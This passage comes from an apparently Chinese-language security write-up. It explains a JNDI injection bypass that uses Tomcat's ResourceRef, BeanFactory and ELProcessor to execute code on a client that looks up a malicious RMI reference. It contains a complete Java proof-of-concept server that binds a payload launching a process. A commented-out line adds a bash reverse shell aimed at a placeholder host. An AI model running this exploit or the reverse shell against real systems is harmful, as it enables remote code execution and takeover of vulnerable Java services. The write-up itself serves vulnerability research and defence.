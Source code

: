 传入的 `Reference`为 `ResourceRef` 类，后面通过反射的方式实例化 `Reference` 所指向的任意 `Bean Class`，调用 `setter` 方法为所有的属性赋值，该 `Bean Class` 的类名、属性、属性值，全都来自于 `Reference` 对象。`ResourceRef`构造器的第七个参数`factoryLocation`是远程加载`factory`的地址，比如是一个`url`,这里将其设置为`null`,达到绕过`ConfigurationException`限制。

#### [poc](#toc_poc)

```plain
public class bypass {
    public static void main(String args[]) {
        try {
            Registry registry = LocateRegistry.createRegistry(1099);
            ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
            ref.add(new StringRefAddr("forceString", "x=eval"));
            // ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['bash','-c','bash -i >& /dev/tcp/ip/port 0>&1']).start()\")"));
           ref.add(new StringRefAddr("x", "Runtime.getRuntime().exec(\"open -a Calculator.app\")"));

            ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
            registry.bind("calc", referenceWrapper);
            System.err.println("Server ready");
        } catch (Exception e) {
            System.err.println("Server exception: " + e.toString());
            e.printStackTrace();
        }
    }
}
```

`org.apache.naming.ResourceRef` 在 `tomcat` 中表示某个资源的引用，其构造函数参数如下:

```plain
/**
    * Resource Reference.
    *
    * @param resourceClass Resource class
    * @param description Description of the resource
    * @param scope Resource scope
    * @param auth Resource authentication
    * @param singleton Is this resource a singleton (every lookup should return
    *                  the same instance rather than a new instance)?
    * @param factory The possibly null class name of the object's factory.
    * @param factoryLocation The possibly null location from which to load the
    *                        factory (e.g. URL)
    */
public ResourceRef(String resourceClass, String description,
                    String scope, String auth, boolean singleton,
                    String factory, String factoryLocation) {
                        //...
                    }
```
